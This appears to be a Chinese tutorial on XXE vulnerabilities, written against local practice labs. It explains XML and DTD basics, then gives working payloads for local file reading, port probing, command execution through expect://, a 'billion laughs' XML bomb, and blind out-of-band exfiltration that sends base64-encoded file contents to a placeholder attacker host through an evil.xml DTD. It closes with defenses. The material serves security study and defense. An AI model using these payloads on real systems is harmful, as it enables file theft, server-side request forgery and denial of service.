


# XXE漏洞

## XML基础知识

主要用途，比如用来给java web做配置文件。

	

	

XML的内容看懂结构即可。

	

	

DTD是对xml文件进行校验的。

ELEMENT是给对应标签结构进行说明嵌套哪些标签

	

ENTITY类似定义全局变量。比如cs变量内容就是changsha

	

这种定义格式也叫内部实体，运行结果如下图所示。

	

外部实体也好理解，比如ENTITY引用一个外部dtd文件。其中SYSTEM是引用本地的文件，PUBLIC引用其他电脑的文件。

	

	

不同语言支持的协议


php默认支持三个协议，如果需要支持其他协议，需要下载对应的扩展。


XML内容整体机构如下图所示。


解释一段简单的xml代码来理解

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name[
<!-- 指定义了一个名为name的元素，它可以包含任何内容（包括其他元素、文本、混合内容等）。 --> 
<!ELEMENT name ANY >
<!-- 这定义了一个名为cs的实体，它的值是字符串"changsha"。实体可以在XML文档中通过&实体名;的形式被引用，以简化文本内容的输入或避免重复。 --> 
<!ENTITY cs "changsha" >]>
<people>
<name>wuya</name>
<area>&cs;</area>
</people>


```

游览器显示界面

	

## 什么xxe漏洞？

可以利用外部实体去访问本地服务器的其他文件，或者其他服务器的文件，来进行渗透。

	

	

## xxe漏洞演示1

靶场使用马士兵资料自带的xxe.php,然后创建一个目录使用phpstudy创建网站即可。

分析源码可知，会把文本框写入的xml文本，以xml语法进行解析输出。

	

测试发现可以识别xml代码。比如这里定义一个实体hacker

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note[<!ENTITY  hacker "wuya test"> ]>
<name>&hacker;</name>
```

	

注意:利用外部实体读取本地文件，需要使用php5.4.45nts版本才行。

也可加载外部实体，来获得本地服务器的文件内容。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note[<!ENTITY  xxe SYSTEM "file:///E://in.txt"> ]>
<login>&xxe;</login>
```

	

也可用来测试本地服务器的端口情况。由于没有3308接口开放，所以会报错，但是换成3306不会报错，这也说明这个端口是开放的。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note[<!ENTITY  xxe SYSTEM "http://127.0.0.1:3308"> ]>
<login>&xxe;</login>
```

	

也可以用来执行命令，比如查看ip地址等操作。但是需要expect这个扩展模块，这里需要php下载expect扩展模块即可使用。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY>
    <!ENTITY xxe SYSTEM "expect://ifconfig">
]>
<root><name>&xxe;</name></root>
```

也可也使用常见的XML炸弹：当XML解析器尝试解析该文件时，由于DTD的定义指数级展开，这个1K不到的文件会占用到3G的内存。

每个lol实体可以展开消耗不了什么内存，但是lol2内部会进行lol的十次展开，同理到lol9展开次数会极其庞大，那么会严重消耗内存的空间。

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## xxe漏洞演示2

搭建从马士兵的资料中搭建另一个靶场。复制php_xxe到根目录下，phpstudy创建网站即可使用。

首先登陆时，使用f12来查看网络请求包。

	

发现账号密码传输的数据类型是xml。

	

用bp抓包，对xml内容进行修改，加上自定义的xxe实体，并且输出这个xxe实体。

	

会发现system.ini文件的内容被回显到网页上了。

	

但是有的时候结果不一定会回显到网页上。

我们可以利用dnslog.cn来实现盲注，比如在该网站获取子域名。

	

比如假设第一个靶场没有回显，我们可以测试这个xml代码是否运行，来加载dnslog所给的域名。

```xml
这段代码是通过%来定义实体，所以最后使用%实体名;来运行。

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % remote SYSTEM "http://2y0178.dnslog.cn">%remote;
]>
```

	

通过刷新得到一条记录，即可说明有xxe注入漏洞。

	

xxe还有一种盲打形式，既然回显的结果不能从网站获取，那就把结果转入到自己的网站中。

```
paylaod：这一段是注入的xml攻击代码
首先外部实体file获取服务器指定的一个文件内容，外部实体dtd又加载了evil.xml文件。

<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=D:/1.txt">
<!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx.xxx/evil.xml">
%dtd;
%send;
]>

其中evil.xml代码如下
首先定义了一个payload实体，其中&#x25;是%实体编码，即又定义了send外部实体，该实体会把file实体的加载的文件内容以get请求传入到自己所创建的网站中。

<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx.xxx/?content=%file;'>"> %payload;
//%号要进行实体编码成&#x25
```

## xxe防御

想要防止xxe渗透，只需禁止外部实体的使用

比如java可以使用这个代码禁用外部实体。

	

比如在第一个xxe靶场中修改源代码，加上这一行关闭外部实体的使用。

	

```
使用这个payload去获取微软敏感文件内容。
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note[<!ENTITY  xxe SYSTEM "file:///C://Windows//system.ini"> ]>
<login>&xxe;</login>
```

于是外部实体加载文件内容失效。

	

也可对xml的关键字进行过滤来实现防御，或者直接使用waf。

	

```
XXE漏洞修复方案
XXE漏洞归根结底在于XML文档解析引入外部实体，禁止加载外部实体。
使用安全的libxml依赖库，版本在2.9以上的版本

XXE漏洞总结
XXE漏洞产生在外部实体
主要有4个利用方向：文件读取，命令执行，DOS攻击，SSRF
按照有无回显可以分为两大类
无回显可以加载外部实体，返回数据到我们Vps上；或者加载本地实体报错回显
```


